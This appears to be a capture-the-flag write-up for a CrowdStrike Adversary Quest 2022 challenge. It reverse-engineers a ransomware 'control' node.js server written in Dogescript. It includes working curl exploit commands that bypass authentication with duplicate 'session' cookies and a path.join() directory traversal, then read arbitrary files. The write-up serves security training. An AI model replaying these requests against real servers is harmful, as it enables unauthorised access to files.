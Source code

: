 # Crowdstrike Adversary Quest 2022 / Catapult Spider / #2 Such Control Wow

## Challenge Description

The ransomware was installed on a customer’s computer via a malicious CHM file. The PowerShell script that you analyzed previously installed multiple second stage binaries, including a binary that enables CATAPULT SPIDER to control the execution of the ransomware. The ransomware has locked the customer completely out of their machines and encrypted their data. The customer does not want to pay the ransom and has asked us for help in unlocking one of their systems. Can you find a way to unlock the machine without paying the ransom? We have obtained a version of the control binary for you to analyze. The locked machine is reachable at the IP 116.202.161.100.

## Pre-Requisites

```txt
$ sudo npm install -g dogescript
```

## TL;DR Summary

- The supplied server/control binary is a compiled node.js application written in Dogescript
- The authentication checks can be bypassed with two Cookies with the same name **session**
- Exploiting a directory traversal vulnerability (**path.join()**) in **checkAuth()** allows access to the control functions.
- Using the function **readfile**, the flag file can be read remotely.

## Analysis

The file **control.exe** is quite large, roughly 50 MiB. It is a 64 Bit Windows PE executable.

```txt
$ file control.exe 
control.exe: PE32+ executable (console) x86-64, for MS Windows
```

Strings output yields Dogescript (some _fun_ language that compiles into javascript) at the end of the file. We can manually copy/dump the dogescript to a file called [**dogescript.djs**](./dogescript.djs).

Catapult Spider has been known to use compiled node.js binaries with Dogescript in the past as well, so that's not a surprise. ;-) See CrowdStrike's Adversary Quest 2021, Challenge 2 ("Very Protocol") of Catapult Spider track.

Compile the Dogescript to JavaScript with `dogescript dogescript.djs > javascript.js` and beautify it a bit with Notepad++ JS-Tool/Format to **javascript_formatted.js**

**TODO** link to javascript.js and javascript_formatted.js

The script seems to listen on port 8124.

First connection:

```txt
$ curl http://116.202.161.100:8124
Nothing here.
```

Reaction **Nothing here** came from line 477 of javascript_formatted.js.

The script seems to implement the following commands

- auth (lines 144+, methods GET and POST)
- readfile (lines 210+, method GET)
- dirlist (lines 272+, method GET)
- unlock (lines 323+, method GET)
- decrypt (lines 365+, method GET)
- wipe (lines 420+, method GET)
- logout (lines 455+)

Trying to retrieve a directory listing from the current working directory could work like this:

```txt
$ curl http://116.202.161.100:8124/dirlist?dir=.
Not authorized.
```

To be able to use the commands, the condition `if (user != null && authorized)` has to evaluate to true. `user` is derived from `user = getUserSession(cookies['session']);` and `authorized` from `authorized = checkAuth(request);`

### Closer Look at sessionid Generation and Usage

A new `sessionid` would be created, if we were able to call the `/auth` command. If we supply the correct username and password, `createSession(user, request.socket.remoteAddress);` is called. The resulting `sessionid` is then used as a Cookie.

Since the password is set randomly to a 20 byte long value, there is no point in trying to guess that (line 13).

How are sessions created?

```javascript
function createSession(user, ip) {
    var rand = Math.floor(Math.random() * 32000);
    var sessionbfr = Buffer.from(`${user}/${ip}/${rand}`);
    var b64_session = sessionbfr.toString('base64')
        .replace(/\+/g, '-')
        .replace(/\//g, '_');
    var content = JSON.stringify({
        'user': user,
        'ip': ip
    });
    fs.writeFileSync(path.join(AuthStore, b64_session), content);
    return b64_session;
}
```

The string `sessionbfr` contains username, ip-address and a random value concatenated with slashes. It is base64 encoded (url-safe) and then used as a filename (`b64_session`). Since `AuthStore` has the value of `/tmp/sessions/` (line 9), a JSON string with user and ip values is written to the file path `/tmp/sessions/` concatenated with value of `b64_session`.

How are session values checked? The function `getUserSessions` is called with the cookie value `session`.

```javascript
function getUserSession(session) {
    try {
        var sessionbfr = Buffer.from(session.replace(/-/g, '+').replace(/_/g, '/'), 'base64');
        var sessionstr = sessionbfr.toString('utf8');
    } catch (err) {
        console.error(`Failed\x20to\x20get\x20user:\x20${err}`);
        return null;
    }
    var parts = sessionstr.split('/');
    if (parts.length != 3) {
        return null;
    }
    return parts[0];
}
```

The session cookie value is base64 decoded, split at slash characters. It has to only contain two slashes so it splits in exactly three parts. The first part is returned as the username. It is not checked, if the corresponding session file exists in the `AuthStore`.

So in order to fill the variable `user = getUserSession(cookies['session']);`, we could just supply any base64 encoded (url-safe) string like `dummy//`, which encodes to `ZHVtbXkvLw==`

### Closer look at function checkAuth

Additionally, we need to have the function `checkAuth` return `true` in order to be allowed to execute commands.

```javascript
function checkAuth(request) {
    var rc = request.headers.cookie;
    if (!rc) {
        return false;
    }
    var cookies = rc.split(';');
    for (const cookie of cookies) {
        var parts = cookie.split('=');
        if (parts.shift().trim() === 'session') {
            var session = decodeURI(parts.join('='))
                console.log('Session: ' + session);
            var sessionPath = path.join(AuthStore, session)
                console.log('Path: ' + sessionPath);
            if (fs.existsSync(sessionPath)) {
                console.log('File exists.');
                return true;
            }
        }
    }
    return false;
}
```

This function parses the list of all cookie values, looking for a session cookie (as well). It evaluates if a file at `path.join(AuthStore, session)` exists and then returns true.

While we are unable to guess existing sessionid values in the `AuthStore`, `path.join` seems vulnerable to a directory traversal attack.

If we could create a path to an existing file, `checkAuth` will return true. Line 11 yields `UNLOCK_FILE = 'C:\\Windows\\flag.txt';`, which could be used for this approach.

#### Executing our first Command

In order to execute a command, we need to set two cookie values - both named `session`.

- One has to fulfill the requirements for `checkAuth` (directory traversal to a file path we know exists on the host)
- The other has to yield a username for `getUserSessions` (base64 url-safe encoded string with two slashes)

While `checkAuth` iterates over all cookies, `getUserSessions` is called with `cookies['session']`. For this approach to work out, the order of the cookies with the same name `session` might be relevant. Which one does node.js return for `getUserSessions`: the first or last occurrence?

```txt
$ curl --cookie "session=ZHVtbXkvLw==;session=../../Windows/flag.txt" http://116.202.161.100:8124/dirlist?dir=.
Not authorized.

$ curl --cookie "session=../../Windows/flag.txt;session=ZHVtbXkvLw==" http://116.202.161.100:8124/dirlist?dir=.
such "Directory" is "." next "Listing" is so "control.js" next "node_modules" next "server.djs" many wow
```

Awesome!

#### Executing some commands

Now that we can execute commands, let's poke around...

```txt
$ curl --cookie "session=../../Windows/flag.txt;session=ZHVtbXkvLw==" http://116.202.161.100:8124/readfile?filename=./control.js
const lefs = require('fs'); const ledogescript = require('dogescript'); var doge_file = lefs.readFileSync('./server.djs').toString('utf-8'); const the_doge = eval(ledogescript(doge_file));
```

```txt
$ curl --cookie "session=../../Windows/flag.txt;session=ZHVtbXkvLw==" http://116.202.161.100:8124/unlock
such "unlock" is "Rvq8/ZXdIFwKaCjbM8AAvfWyaO8f5AEMfUOJwX+ERHc=" next "date" is "Wed Jul 13 2022 13:09:33 GMT-0700 (Pacific Daylight Time)" wow
```

That is supposedly the base64 value of the SHA256 hash of the flag. Not very helpful... (see function `unlock`, lines 94+).

## Now it's Flag Time!

```txt
$ curl --cookie "session=../../Windows/flag.txt;session=ZHVtbXkvLw==" http://116.202.161.100:8124/readfile?filename=../../../Windows/flag.txt
CS{such_m4ny_C00kies_c0nfUs3d_w0w}
```

Flag: **CS{such_m4ny_C00kies_c0nfUs3d_w0w}**
